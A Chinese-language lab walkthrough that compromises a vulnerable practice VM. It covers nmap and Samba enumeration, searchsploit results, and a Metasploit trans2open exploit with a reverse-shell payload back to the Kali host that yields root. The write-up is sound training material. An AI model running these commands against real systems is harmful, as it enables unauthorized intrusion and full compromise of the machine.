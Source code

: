 下载虚拟机，用VMWare打开，和Kali攻击机在一个网段

### 信息收集
#### ip探测
虚拟机安装好后，不能通过登录机器获取ifconfig的ip信息，所以使用外部扫描确定机器在网段中的ip，使用kali的arp-scan或者nmap

```
$ arp-scan 192.168.159.0/24
...
192.168.159.129 00:0c:29:e4:26:1c VMware, Inc.
...

$ nmap -sn 192.168.159.0/24
...
Nmap scan report for 192.168.159.129
...
```

得到机器的ip是192.168.159.129

#### 服务探测
使用nmap进行全端口扫描，直接使用msf中的db_nmap可以保存数据更加方便

```
msf $ db_nmap -sT -sV -p 1-65535 -Pn 192.168.159.129
msf $ services 192.168.159.129
host             port  proto  name         state  info
----             ----  -----  ----         -----  ----
192.168.159.129  22    tcp    ssh          open   OpenSSH 2.9p2 protocol 1.99
192.168.159.129  80    tcp    http         open   Apache httpd 1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
192.168.159.129  111   tcp    rpcbind      open   2 RPC #100000
192.168.159.129  139   tcp    netbios-ssn  open   Samba smbd workgroup: MYGROUP
192.168.159.129  443   tcp    ssl/https    open   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
192.168.159.129  1024  tcp    status       open   1 RPC #100024
```

#### samba版本探测
nbtscan可以探测139端口的信息，enum4linux工具可以枚举samba的信息，比如是否可以用空口令session

还是用msf进行samba版本探测

```
msf5 > search smb_version

Matching Modules
================

   #  Name                               Disclosure Date  Rank    Check  Description
   -  ----                               ---------------  ----    -----  -----------
   1  auxiliary/scanner/smb/smb_version                   normal  Yes    SMB Version Detection


msf5 > use auxiliary/scanner/smb/smb_version
msf5 auxiliary(scanner/smb/smb_version) > options

Module options (auxiliary/scanner/smb/smb_version):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   RHOSTS                      yes       The target address range or CIDR identifier
   SMBDomain  .                no        The Windows domain to use for authentication
   SMBPass                     no        The password for the specified username
   SMBUser                     no        The username to authenticate as
   THREADS    1                yes       The number of concurrent threads

msf5 auxiliary(scanner/smb/smb_version) > set RHOSTS 192.168.159.129
RHOSTS => 192.168.159.129
msf5 auxiliary(scanner/smb/smb_version) > run

[*] 192.168.159.129:139   - Host could not be identified: Unix (Samba 2.2.1a)
[*] 192.168.159.129:445   - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

#### web目录暴破
```
$ dirb http://192.168.159.129
```

暴破出来一些路径，访问均没有发现明显的利用点

### 威胁建模
主机资产：Linux 2.4.x ip 192.168.159.129
服务资产：http、httpd、rpcbind、ssh、samba
web框架、插件未查

考虑可能产生漏洞的攻击面

1. web漏洞，期望通过SQL或者命令执行或者apache httpd本身漏洞等高风险漏洞拿到权限
2. samba有远程RCE或者远程提权漏洞，或者可以获取一些信息
3. SSL的漏洞，有远程RCE或者远程提权漏洞
4. ssh口令暴破
5. rpc可能有一些反序列化漏洞

### 漏洞分析
AWVS扫描Web没有发现Web漏洞

```
$ searchsploit samba 2.2
$ searchsploit httpd 1.3
$ searchsploit ssl 2.8
$ searchsploit ssl 2.9
$ searchsploit ssl 0.9
$ searchsploit apache 1.3
$ searchsploit rpc
```

得出一些可能比较有用的漏洞，去掉非Linxu平台，去掉一些没有EXP的漏洞，得到比较可用的一些EXP，去掉心脏出血这种不够直接的EXP
```
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuck.c' Remote Buffer Overflow                                         | exploits/unix/remote/21671.c
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow                                       | exploits/unix/remote/764.c
Samba 2.2.2 < 2.2.6 - 'nttrans' Remote Buffer Overflow (Metasploit) (1)                                      | exploits/linux/remote/16321.rb
Samba 2.2.8 (Linux x86) - 'trans2open' Remote Overflow (Metasploit)                                          | exploits/linux_x86/remote/16861.rb
Samba 2.2.8 - Brute Force Method Remote Command Execution                                                    | exploits/linux/remote/55.c
Samba 2.2.x - 'nttrans' Remote Overflow (Metasploit)                                                         | exploits/linux/remote/9936.rb
Samba 2.2.x - Remote Buffer Overflow                                                                         | exploits/linux/remote/7.pl
Samba < 2.2.8 (Linux/BSD) - Remote Code Execution                                                            | exploits/multiple/remote/10.c
```

### 漏洞攻击
有metasploit标志的先进行尝试
```
msf5 exploit(linux/samba/trans2open) > use exploit/linux/samba/trans2open
msf5 exploit(linux/samba/trans2open) > set RHOSTS 192.168.159.129
RHOSTS => 192.168.159.129
msf5 exploit(linux/samba/trans2open) > set payload linux/x86/shell_reverse_tcp
payload => linux/x86/shell_reverse_tcp
msf5 exploit(linux/samba/trans2open) > options

Module options (exploit/linux/samba/trans2open):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  192.168.159.129  yes       The target address range or CIDR identifier
   RPORT   139              yes       The target port (TCP)


Payload options (linux/x86/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   CMD    /bin/sh          yes       The command string to execute
   LHOST  192.168.159.128  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Samba 2.2.x - Bruteforce


msf5 exploit(linux/samba/trans2open) > run

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] 192.168.159.129:139 - Trying return address 0xbffffdfc...
[*] 192.168.159.129:139 - Trying return address 0xbffffcfc...
[*] 192.168.159.129:139 - Trying return address 0xbffffbfc...
[*] 192.168.159.129:139 - Trying return address 0xbffffafc...
[*] Command shell session 10 opened (192.168.159.128:4444 -> 192.168.159.129:1074) at 2019-09-24 16:42:28 +0800

whoami
root
```

直接提权到root了

### 后渗透攻击
pass

切换到root目录，查看`.bash_history`文件可以看到执行过mail命令

执行后查看邮件，可以得到一份祝贺邮件

### 其他
使用mod_ssl的764.c编译失败，这种情况可以到exploit-db上找到对应CVE编号，查询是否有编译好的或者看源c文件，是否有提示，编译中版本问题libssl的库在kali上无法安装，可以使用其他github或者exploit-db上已有的EXP，不行就换其他的漏洞试
